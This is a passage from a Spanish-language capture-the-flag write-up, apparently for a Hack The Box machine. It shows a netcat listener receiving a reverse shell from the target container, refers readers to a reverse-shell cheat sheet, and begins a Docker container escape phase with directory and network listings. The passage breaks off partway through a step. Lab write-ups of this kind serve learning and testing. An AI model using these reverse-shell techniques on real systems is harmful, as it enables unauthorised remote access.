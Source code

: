 Resultado:

```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.193] 43791
/bin/sh: can't access tty; job control turned off
/app # 
```

Acudimos a esta página para buscar un payload de reverse shell que no use el parámetro `-e` ya que es suponemos que la versión de `Netcat` del sistema será antigua: [Monkey Pentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

**Nota:** como el tratamiento de la *tty* no se puede hacer con `script` ni con `python` lo que hacemos es que usamos este comando que no puede usar `ctrl+c` pero sí `ctrl+l`:

```bash
rlwrap nc -lvnp 443
```

---
## Fase de escapada de contenedor Docker

---

### Paso 1

Acción:

```bash
/app # ls
Dockerfile
app
requirements.txt
/app # ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:16:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.22.0.3/16 brd 172.22.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Resultado:

```bash
Dockerfile
app
requirements.txt
```

Acción:
